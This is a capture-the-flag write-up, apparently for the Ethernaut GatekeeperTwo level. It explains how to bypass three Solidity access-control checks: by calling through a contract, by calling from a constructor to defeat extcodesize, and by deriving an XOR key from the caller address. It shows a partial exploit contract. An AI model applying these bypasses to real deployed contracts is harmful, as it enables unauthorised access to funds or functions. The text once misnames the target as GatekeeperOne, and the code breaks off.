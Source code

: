 ### Exploit

Our goal is to call the `enter()` function and pass all the gates (modifiers).

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

We can pass `gateOne()` by interacting with the contract using our exploit contract. When we interact with GatekeeperOne using our exploit contract, `msg.sender` will be our exploit contract address, and `tx.origin` will be the address of the externally owned account (EOA) that is calling the exploit contract.

```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```

We can pass `gateTwo()` by calling `enter()` from the constructor of our exploit contract. When we call `enter()` from the constructor of our exploit contract, `extcodesize()` will return zero. `caller()` is an opcode in Solidity that returns the `msg.sender`.

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

We can pass `gateThree()` by passing the correct `gateKey` as an argument during the function call. If we examine the required statement, it performs an XOR operation. When we perform `A^B`, there will be output. Let the output be `C`. So now the equation is `A^B=C`.

XOR has a special property: if `A^B=C`, then `A` can be written as `C^B`, and `B` can be written as `C^A`.

In `gateThree()`, the require statement is `uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max`. Then `_gateKey` can be written as `type(uint64).max^uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`.

The XOR value depends on `msg.sender`, which is our contract address. Since we know our contract address, we can calculate the `_gateKey` and pass it to the `enter()` function.

{{< collapsible "Click to view Exploit contract" >}}

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {GatekeeperTwo} from "./GatekeeperTwo.sol";

contract ExploitGatekeeperTwo{
    GatekeeperTwo gatekeeperTwo;
    constructor(address _addr){
        gatekeeperTwo=GatekeeperTwo(_addr);
        bytes8 data=bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^  type(uint64).max);
        gatekeeperTwo.enter(data);
        require(gatekeeperTwo.entrant()==msg.sender,"Exploit Failed");
```